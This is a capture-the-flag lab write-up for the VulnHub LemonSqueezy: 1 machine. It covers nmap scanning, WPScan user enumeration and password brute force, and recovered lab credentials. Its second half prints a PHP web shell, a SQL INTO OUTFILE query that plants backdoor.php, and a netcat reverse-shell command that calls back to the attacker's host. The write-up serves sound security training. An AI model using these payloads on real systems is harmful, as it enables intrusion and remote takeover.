# LemonSqueezy: 1

- **Machine:** LemonSqueezy: 1
- **Download:** https://www.vulnhub.com/entry/lemonsqueezy-1,473/



---

# Machine Setup

1. Extract the downloaded archive.

```bash
7z x LemonSqueezy.7z
```



2. Create a new virtual machine in VirtualBox.



3. Open the VM settings.

```text
VirtualBox → LemonSqueezy → Settings → Storage
```

- Remove the **Empty** optical drive.
- Remove the existing **SATA Controller**.
- Click **Add Hard Disk** and attach the provided virtual disk.





4. Click **Choose** after selecting the disk.
5. Configure the network adapter as **Bridged Adapter**.
6. Start the virtual machine.



---

# Network Scanning

## Discover the Target IP

```bash
nmap -sn 192.168.2.0/24
```



---

## Full Nmap Scan

Run a complete scan to enumerate open ports, services, operating system details, and NSE scripts.

```bash
nmap -v -Pn -sT -sV -sC -A -O -p- 192.168.2.226
```



---

## Optional Port Scan

```bash
nmap -v -p- 192.168.2.226
```

```bash
nmap -sC -sV -A 192.168.2.226
```

---

## HTTP Enumeration

Use the `http-enum` NSE script to identify hidden web resources.

```bash
nmap -v -p 80 -sT -sV -A --script=http-enum.nse 192.168.2.226
```



---

# Web Enumeration

Visit the discovered endpoints.

- http://192.168.2.226
- http://192.168.2.226/wordpress/
- http://192.168.2.226/phpmyadmin/
- http://192.168.2.226/wordpress/wp-login.php
- http://192.168.2.226/manual/en/index.html

---

## Configure the Hostname

Add the hostname entry.

```bash
nano /etc/hosts
```



Visit the application using the hostname.

- http://lemonsqueezy/wordpress/
- http://lemonsqueezy/wordpress/wp-login.php

---

## Enumerate WordPress Users

```bash
wpscan --url http://lemonsqueezy/wordpress/ -e u
```



Discovered users:

```text
lemon
orange
```

---

## Brute Force WordPress Credentials

Test the **lemon** account.

```bash
wpscan --url http://lemonsqueezy/wordpress/ --usernames lemon --passwords /opt/rockyou.txt
```

Test the **orange** account.

```bash
wpscan --url http://lemonsqueezy/wordpress/ --usernames orange --passwords /opt/rockyou.txt
```



Recovered credentials:

```text
Username : orange
Password : ginger
```

Login to WordPress.

- http://lemonsqueezy/wordpress/wp-login.php



---

# Reverse Shell

After logging into WordPress, navigate to:

```text
Posts
```



---

## Access phpMyAdmin

Login using the following credentials.

```text
Username : orange
Password : n0t1n@w0rdl1st!
```

- http://192.168.2.226/phpmyadmin/



Navigate to the `wordpress` database and open the `wp_users` table.



Copy the password hash from the **orange** account and replace the password hash for the **lemon** account.



Login again using:

```text
Username : lemon
Password : ginger
```

- http://lemonsqueezy/wordpress/wp-login.php



---

## Attempt Plugin Upload

Create a simple PHP web shell.

```bash
nano shell.php
```

Contents:

```php
<?php system($_GET['cmd']); ?>
```

Navigate to:

```text
Plugins → Add New → Upload Plugin
```



The upload is blocked.



---

## Create a Web Shell via phpMyAdmin

Open the **SQL** tab and execute:

```sql
SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE "/var/www/html/wordpress/backdoor.php";
```



Verify command execution.

- http://lemonsqueezy/wordpress/backdoor.php?cmd=id



---

## Obtain a Reverse Shell

Start a Netcat listener.

```bash
nc -nlvp 443
```

Execute a reverse shell using the web shell.

```text
http://lemonsqueezy/wordpress/backdoor.php?cmd=nc%20-e%20/bin/bash%20192.168.2.219%20443
```

A reverse shell is successfully established.



---

# Key Learning

- Enumerate WordPress users using **WPScan**.
- Weak passwords can lead to authenticated WordPress access.
- Database credentials may provide direct access to **phpMyAdmin**.
- Password hashes can be reused to take over additional WordPress accounts.
- File upload restrictions do not always prevent code execution.
- SQL `INTO OUTFILE` can be abused to write arbitrary PHP files when MySQL has sufficient privileges.
- A simple PHP web shell can be used to execute operating system commands and obtain a reverse shell.

---

# Summary

The assessment began with WordPress enumeration, where two valid usernames were identified. A weak password for the **orange** account was recovered using **WPScan**, allowing authenticated access to both WordPress and phpMyAdmin. By copying the password hash to the **lemon** account, administrator access was obtained. Although direct PHP plugin uploads were blocked, SQL write privileges in phpMyAdmin were leveraged to create a PHP web shell using `SELECT ... INTO OUTFILE`. Finally, the web shell was used to execute a reverse shell, resulting in remote command execution on the target system.